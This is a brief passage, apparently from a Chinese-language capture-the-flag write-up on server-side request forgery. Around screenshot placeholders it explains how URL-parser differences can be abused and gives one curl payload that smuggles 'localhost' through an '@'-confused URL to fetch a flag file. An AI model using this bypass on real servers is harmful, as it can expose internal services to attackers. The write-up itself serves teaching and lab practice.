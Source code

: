 ![23](23.png)

我们可以利用URL解析器之间的差异处理，构造如下 **payload** ：

```bash
curl -d "url=http://foo@localhost:80@www.freebuf.com/flag.php" "http://题目IP/"
```

![24](24.png)